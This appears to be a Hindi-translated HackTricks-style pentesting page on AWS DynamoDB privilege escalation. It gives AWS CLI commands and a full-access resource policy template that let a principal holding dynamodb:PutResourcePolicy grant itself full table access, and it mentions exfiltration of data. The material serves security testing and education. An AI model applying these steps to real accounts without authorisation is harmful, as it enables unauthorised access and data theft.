 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

DynamoDB के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, और वैकल्पिक रूप से `dynamodb:GetResourcePolicy`

मार्च 2024 से, AWS *resource based policies* के लिए DynamoDB प्रदान करता है ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/))।

तो, यदि आपके पास किसी तालिका के लिए `dynamodb:PutResourcePolicy` है, तो आप बस अपने आप या किसी अन्य प्रिंसिपल को तालिका तक पूर्ण पहुंच दे सकते हैं।

किसी यादृच्छिक प्रिंसिपल को `dynamodb:PutResourcePolicy` देना अक्सर गलती से होता है, यदि व्यवस्थापक सोचते हैं कि `dynamodb:Put*` देने से केवल प्रिंसिपल को डेटाबेस में आइटम डालने की अनुमति मिलेगी - या यदि उन्होंने मार्च 2024 से पहले वह अनुमति सेट दी थी...

आदर्श रूप से, आपके पास `dynamodb:GetResourcePolicy` भी होना चाहिए, ताकि आप अन्य संभावित महत्वपूर्ण अनुमतियों को अधिलेखित न करें, बल्कि केवल उन अतिरिक्त अनुमतियों को इंजेक्ट करें जिनकी आपको आवश्यकता है:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
यदि आप वर्तमान नीति को पुनः प्राप्त नहीं कर सकते हैं, तो बस इस नीति का उपयोग करें जो आपके प्रिंसिपल को तालिका पर पूर्ण पहुंच प्रदान करती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
यदि आपको इसे अनुकूलित करने की आवश्यकता है, तो यहाँ सभी संभावित DynamoDB क्रियाओं की एक सूची है: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)। और यहाँ सभी क्रियाओं की एक सूची है जिन्हें संसाधन आधारित नीति के माध्यम से अनुमति दी जा सकती है *और इनमें से कौन सी क्रियाएँ क्रॉस-खाता उपयोग के लिए उपलब्ध हैं (डेटा निकासी के बारे में सोचें!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

अब, नीति दस्तावेज़ `policy.json` तैयार है, संसाधन नीति डालें:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
अब, आपके पास आवश्यक अनुमतियाँ होनी चाहिए।

### पोस्ट एक्सप्लोइटेशन

जितना मुझे पता है, AWS में केवल कुछ AWS `dynamodb` अनुमतियाँ होने से विशेषाधिकार बढ़ाने का **कोई अन्य सीधा तरीका नहीं है**। आप तालिकाओं से **संवेदनशील** जानकारी पढ़ सकते हैं (जिसमें AWS क्रेडेंशियल्स हो सकते हैं) और तालिकाओं पर **जानकारी लिख सकते हैं** (जो अन्य कमजोरियों को ट्रिगर कर सकता है, जैसे कि लैम्ब्डा कोड इंजेक्शन...) लेकिन ये सभी विकल्प पहले से ही **DynamoDB पोस्ट एक्सप्लोइटेशन पृष्ठ** में विचारित हैं:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: डेटा स्ट्रीम का दुरुपयोग करके डेटा पढ़ें

{{#include ../../../banners/hacktricks-training.md}}
